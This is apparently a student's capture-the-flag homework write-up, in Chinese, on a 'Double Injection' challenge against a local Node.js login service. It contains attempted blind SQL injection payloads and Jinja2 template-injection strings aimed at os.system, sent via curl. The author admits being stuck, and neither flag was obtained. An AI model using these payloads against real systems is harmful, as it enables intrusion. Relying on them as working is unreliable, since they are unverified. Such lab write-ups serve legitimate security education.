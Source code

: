 # HW4 Writeup

- 學號：`109550206`

## Double Injection - FLAG1

- Flag：``

### 解題流程與思路
**解題過程：**
1. 可以觀察到其有一個 sql 指令可以進行 injection。
```js
const { username, password } = req.body;
const jsonPath = JSON.stringify(`$.${username}.password`);
const query = `SELECT json_extract(users, ${jsonPath}) AS password FROM db`;
```
2. 卡死，不會閉合 `"`，由於 JSON.stringify 會 escape 內文的 `"` 並外加一層 `"`，後原本想改 username 的 type 成 list 或 escape \` in stringify with `,` ，但似乎沒什麼意義。理論上閉合或 ignore 前面的 sql 可以設法使 password 找成 admin 的 (flag) 並分別 check 其長度、每個字元 ASCII，可以透過使其 sleep 或 crash 或控制 row.password 值，來確認其是否為 true。即可搜到 flag。 
```
x='admin.password%22) AS password FROM db and length(password)>5 --'

x2="admin.password) AS password FROM db and ascii(mid(password,1,1))>80' -- ("

y="guest"
curl -v -X POST -d \
         "username=$x&password=$y" \
         http://localhost:3000/login
```
![Alt text](image/image.png)

**取得 flag 的畫面：**

## Double Injection - FLAG2

- Flag：``

### 解題流程與思路
**解題過程：**
1. 這題理想上很簡單，直接套 Jinja2 SSTI 應該可以開出 shell ，但前提拿到 flag，才能設使其進入 const html = ejs.render(template, { username }); 並調整 username 中包含可以開出 system 的部分，接著 ls 跟 cat 應該可以拿到。不過也卡閉合問題，無從驗證。
```
x="admin.password) AS password FROM db; -- {{ lipsum.__globals__['os'].system }}"

x2="admin.password) AS password FROM db; -- {{ ().__class__.__base__.__subclasses__()[132].__init__.__globals__['system'] }}"

y="null"

curl -v -X POST -d \
         "username=$x&password=$y" \
         http://localhost:3000/login
```
**取得 flag 的畫面：**